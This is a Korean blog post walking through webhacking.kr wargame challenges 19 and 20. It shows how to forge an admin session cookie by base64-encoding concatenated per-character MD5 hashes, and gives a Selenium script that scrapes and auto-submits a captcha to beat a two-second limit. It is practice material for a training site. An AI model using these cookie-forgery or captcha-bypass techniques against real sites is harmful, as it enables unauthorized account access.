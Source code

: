 ```yaml
---
title: "Security: webhacking.kr 19-21"
last_modified_at: 2020-07-19T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 19 문제 풀이
---

19번 문제에 들어가보니 다음과 같이 로그인 화면이 보였다.
{: .notice}
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

admin으로 로그인을 시도하니 admin이 아니라는 문구가 나타났다.
{: .notice}
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 임의로 a를 입력해보니 a 계정으로 로그인이 되었고 소스코드나 다른곳에 변화가 없어서 쿠키를 살펴보니 userid라는 쿠키가 생성되었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE%3D
```
생긴것을 보아하니 이전에 문제를 풀면서 봤던 base64와 모양이 같다. 그래서 이것을 decoding 해보았더니 다음과 같이 또 다른 값이 나왔다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

모양을 보아하니 이전에 풀었던 hash문제가 떠올랐고 간단한 인터넷 사이트에서 decryption을 시도해보니 MD5 decryption 시 내가 입력했던 id를 다시 볼 수 있었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 당장에 admin을 MD5로 encryption 하고 Base64로 encode하였다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-8.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 이 값을 쿠키에 입력해보았더니 error 페이지가 나타났다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-9.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-10.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 이런 저런 고민을 하면서 여러 값들을 입력하다가 발견한것은 여러 글자를 입력할시 쿠키값 길이가 배로 늘어난 것을 볼 수 있었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-10.JPG" alt="">
  <figcaption> </figcaption>
</figure>

혹시나 아이디를 여러글자 입력할시 한글자에 대한 인코딩 값을 이어붙이는게 아닐까해서 확인을 해보았더니.
{: .notice}

```
id가 a 일때,
MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE%3D -> base64
0cc175b9c0f1b6a831c399e269772661 -> MD5

id가 admi 일때,
MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE4Mjc3ZTA5MTBkNzUwMTk1YjQ0ODc5NzYxNmUwOTFhZDZmOGY1NzcxNTA5MGRhMjYzMjQ1Mzk4OGQ5YTE1MDFiODY1YzBjMGI0YWIwZTA2M2U1Y2FhMzM4N2MxYTg3NDE%3D
0cc175b9c0f1b6a831c399e2697726618277e0910d750195b448797616e091ad6f8f57715090da2632453988d9a1501b865c0c0b4ab0e063e5caa3387c1a8741
```

맨앞글자 부분의 값이 같다는 것을 알 수 있었다. 그래서 나는 그대로 n에 대한 쿠키값을 구해서 뒤에 붙인뒤 로그인을 시도하였다.
{: .notice}

```
id가 admi 일때,
MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE4Mjc3ZTA5MTBkNzUwMTk1YjQ0ODc5NzYxNmUwOTFhZDZmOGY1NzcxNTA5MGRhMjYzMjQ1Mzk4OGQ5YTE1MDFiODY1YzBjMGI0YWIwZTA2M2U1Y2FhMzM4N2MxYTg3NDE%3D
0cc175b9c0f1b6a831c399e2697726618277e0910d750195b448797616e091ad6f8f57715090da2632453988d9a1501b865c0c0b4ab0e063e5caa3387c1a8741

id가 n 일때,
N2I4Yjk2NWFkNGJjYTBlNDFhYjUxZGU3YjMxMzYzYTE%3D
7b8b965ad4bca0e41ab51de7b31363a1

id가 admin 일때,
0cc175b9c0f1b6a831c399e2697726618277e0910d750195b448797616e091ad6f8f57715090da2632453988d9a1501b865c0c0b4ab0e063e5caa3387c1a87417b8b965ad4bca0e41ab51de7b31363a1
MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE4Mjc3ZTA5MTBkNzUwMTk1YjQ0ODc5NzYxNmUwOTFhZDZmOGY1NzcxNTA5MGRhMjYzMjQ1Mzk4OGQ5YTE1MDFiODY1YzBjMGI0YWIwZTA2M2U1Y2FhMzM4N2MxYTg3NDE3YjhiOTY1YWQ0YmNhMGU0MWFiNTFkZTdiMzEzNjNhMQ==
```

처음에는 쿠키값(base64)을 그대로 붙여서 로그인을 시도했다가 실패했고 생각해보니 MD5 값을 붙인다음에 base64 encode를 해야겠다는 생각이 들어서 시도해보니 성공하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-13.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제19/19-14.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 20 문제 풀이
---

20번 문제 화면이다. id와 comment 그리고 자동 로그인 방지를 위한 문자열을 요구하는듯 하다. 위에 time limit이 신경쓰였지만 일단 입력해보기로했다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제20/20-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

너무 느리다고 한다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제20/20-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

문제해결을 위해 소스코드를 살펴보았다.
{: .notice}

```php
<html>
<head>
<title>Challenge 20</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
<center><font size=2>time limit : 2 second</font></center>
<form name=lv5frm method=post>
<table border=0>
<tr><td>nickname</td><td><input type=text name=id size=10 maxlength=10></td></tr>
<tr><td>comment</td><td><input type=text name=cmt size=50 maxlength=50></td></tr>
<tr><td>captcha</td><td><input type=text name=captcha><input type=button name=captcha_ value="L9UDpQ9Q9A" style="border:0;background=lightgreen"></td></tr>
<tr><td><input type=button value=Submit onclick=ck()></td><td><input type=reset value=reset></td></tr>
</table>
<script>
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }
  lv5frm.submit();
}
</script>
</body>
</html>
```

특별한 점은 없었다. 값이 제대로 입력이 되어있는지 확인하고 captcha 값이 일치한지 확인하는듯하다. 도저히 2초내로 로그인 할 수는 없어서 파이썬 코드를 작성하였다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains

#연결

url = "https://webhacking.kr/challenge/code-4/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'kbi90415jtd5t744kcsja51foi'}
driver.add_cookie(cookie)
driver.get(url)

#id 입력
name = driver.find_element_by_name('id')
name.send_keys("test")
#cmt입력
cmt = driver.find_element_by_name('cmt')
cmt.send_keys("test")
#captcha 값 받아오기
cap_Value = driver.find_element_by_name('captcha_').get_attribute("value")
#captcha 값 자동 입력
captcha = driver.find_element_by_name('captcha')
captcha.send_keys(cap_Value)
#submit 클릭
submitButton = driver.find_element_by_xpath("//button[@value='Submit']")
submitButton.click()
```

element들이 id는 없고 이름만 있어서 find_element_by_name 를 사용하여 test를 입력하도록 작성했고
captcha_ 안에 입력된 값을 받아와서 똑같이 입력하도록 하였다. 그리고 클릭!
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제20/20-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

다른 문제가 또 기다리고 있을 줄 알았는데 금방 해결되었다!
{: .notice}